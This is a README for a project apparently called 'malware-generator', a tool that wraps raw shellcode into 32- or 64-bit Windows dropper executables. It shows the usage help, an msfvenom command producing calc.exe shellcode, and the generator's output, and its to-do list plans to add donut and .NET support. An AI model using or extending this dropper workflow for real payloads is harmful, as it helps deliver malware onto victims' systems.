 # malware-generator

Simple project to generate 32bit or 64bit droppers

# Installation

```
pip3 install -r requirments.txt
```

# Usage

```
$ ./generator.py -h
usage: generator.py [-h] [-a ARCH] binaryPath

Simple raw shellcode Dropper Generator

positional arguments:
  binaryPath            File containing raw shellcode

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  Shellcode Architecture (1=x64, 2=x86) (default=x64)
  -d, --debug           Generate cpp code with the executable for debuging
```

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode.
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it.
```
$ ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add check for tools and dependencies.
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.
* add option to specifed output directory and output name.
